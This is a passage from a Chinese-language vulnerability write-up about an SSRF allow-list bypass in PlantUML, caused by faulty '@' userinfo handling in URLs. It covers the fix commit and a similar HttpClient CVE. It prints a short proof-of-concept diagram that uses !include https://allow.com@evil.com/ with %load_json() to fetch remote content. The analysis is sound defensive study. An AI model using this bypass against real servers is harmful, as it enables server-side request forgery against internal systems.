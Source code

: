 处理完后，以同样的方式处理allow列表的url，若full是以allow的url开头的话，则检查通过，允许进行请求。从逻辑上来看，这个流程是没有问题的，考虑了对用户输入的规范性处理，也进行了安全检查，那到底是什么地方出了问题导致了ssrf风险呢？

问题主要出现在判断URL 中是否包含用户名和密码（如果存在）的userinfo部分的正则表达式中：

这个正则表达式主要用于匹配URL中的三个部分：

举例来说，匹配的URL可能是类似于 `https://user@example.com` 这样的形式，其中 `user` 是用户名。

事实上，**该正则表达式无法执行其预期功能**，因为 URL 中用户信息的格式为`&lt;username&gt;:&lt;password&gt;@&lt;host&gt;`但是正则表达式并不包含`:`。并且`@`也可以位于 URL 的其他部分，例如路径、查询。

最关键的是，正则表达式中并没有对`.`进行匹配，也就是说类似`https://plantuml.com@evil.com`的请求并不会被去掉userInfo信息。根据前面的分析：
1. 如果用户白名单配置为 [https://allow.com](https://allow.com/) 会存在绕过风险：[https://allow.com@evil.com/](https://evil.com/)1. 如果用户白名单配置为 [https://allow.com/](https://allow.com/) 就不会绕过该限制，因为在判断是否是allow是通过startsWith进行判断的，[https://allow.com/](https://allow.com/) 经过处理后会以`/`结尾，[allow.com@127.0.0.1](/cdn-cgi/l/email-protection#97f6fbfbf8e0b9f4f8fab1b4a1a3aca6a5a0b9a7b9a7b9a6)明显不是以allow.com/ 开头，所以没办法绕过对应的限制。
前面提到!include加载了对应的URI并且返回了部分内容，可能是因为被加载的内容是不合法的PlantUML语法，所以并没有返回全部内容，查阅相关资料[URL Restriction Bypass vulnerability found in plantuml](https://huntr.com/bounties/8ac3316f-431c-468d-87e4-3dafff2ecf51/) ,发现可以通过%load_json调用来加载更多的内容：

这里同样以请求[奇安信攻防社区](https://forum.butian.net/) 为例，可以看到相比之前确实返回了更多的内容：

综上，可以得到对应的poc为：

```
@startuml
!include https://allow.com@evil.com/
a -&gt; b: %load_json()
@enduml

```

### 1.3 漏洞修复

通过对比修复方式可以知道：

[fix: improve filelist support and nwdiag · plantuml/plantuml@b32500b · GitHub](https://github.com/plantuml/plantuml/commit/b32500bb61ae617bb312496d6d832e4be8190797#diff-c39d9b156bb6f66caa73b1859ae2f15630567d52c1d19c30dbb955a53fe5ca0f)

主要是对URL (Uniform Resource Locator) 中的@ 符号（用于在URL 中指定登录信息。 具体来说，它用于指定用户名和密码，以便登录远程服务器）进行了检查。

可以看到修复后，已经没办法加载对应的URL了:

## 0x02 其他

ssrf是比较常见的漏洞，可以利用存在缺陷的web应用作为代理攻击远程和本地的服务器。一般存在于可以发起网络请求的方法和对应的业务。很多时候业务在开发功能时实际上已经意识到潜在的安全问题了。但是还是因为绕过方式的多样性导致了安全措施被绕过。

上述场景是因为`@`处理不当导致的绕过。HttpClient同样也出现过类似的案例，相关CVE编号为CVE-2020-13956，简单看下漏洞的成因：

HttpClient(**&lt;=4.5.12版本**)在解析时候先使用自带的 URL 函数获取 port 和 host，如果通过getHost()获取失败的话，会调用getAuthority()方法来进行调整：

```
  public static HttpHost extractHost(URI uri)
  {
    if (uri == null) {
      return null;
    }
    HttpHost target = null;
    if (uri.isAbsolute())
    {
      int port = uri.getPort();
      String host = uri.getHost();
      if (host == null)
      {
        host = uri.getAuthority();
           ......
```
